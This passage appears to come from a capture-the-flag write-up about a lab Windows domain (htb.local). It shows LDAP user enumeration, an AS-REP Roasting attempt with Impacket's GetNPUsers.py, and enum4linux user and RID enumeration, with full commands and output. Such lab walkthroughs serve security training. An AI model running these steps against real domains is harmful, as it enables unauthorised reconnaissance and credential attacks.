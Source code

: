 ```bash
sAMAccountName: HealthMailboxb01ac64
sAMAccountName: HealthMailbox7108a4e
sAMAccountName: HealthMailbox0659cc1
sAMAccountName: sebastien
sAMAccountName: lucinda
sAMAccountName: andy
sAMAccountName: mark
sAMAccountName: santi
```

The ones that look legit are the last 5 ones, so let's get them by adding the following filter to the command:

```bash
tail -n 5 | cut -d " " -f 2
```

```text
sebastien
lucinda
andy
mark
santi
```

Now we can perform an AS-REP Roasting attack using `GetNPUsers.py` from `Impacket-scripts`.

```shell
$ GetNPUsers.py 'htb.local/' -usersfile users.lst -no-pass -dc-ip htb.local
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[-] User sebastien doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User lucinda doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User andy doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User mark doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User santi doesn't have UF_DONT_REQUIRE_PREAUTH set
```

It didn't find an account with Pre-Authentication disabled.

Let's try enumerating users using `enum4linux`

```shell
$ enum4linux -U htb.local
Starting enum4linux v0.8.9 ( http://labs.portcullis.co.uk/application/enum4linux/ ) on Sat Sep  2 15:00:54 2023

 ========================== 
|    Target Information    |
 ========================== 
Target ........... htb.local
RID Range ........ 500-550,1000-1050
Username ......... ''
Password ......... ''
Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none
    
 ==========================                                                                    
|    Users on htb.local    |
 ========================== 
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[DefaultAccount] rid:[0x1f7]
user:[$331000-VK4ADACQNUCA] rid:[0x463]
user:[SM_2c8eef0a09b545acb] rid:[0x464]
user:[SM_ca8c2ed5bdab4dc9b] rid:[0x465]
user:[SM_75a538d3025e4db9a] rid:[0x466]
user:[SM_681f53d4942840e18] rid:[0x467]
```
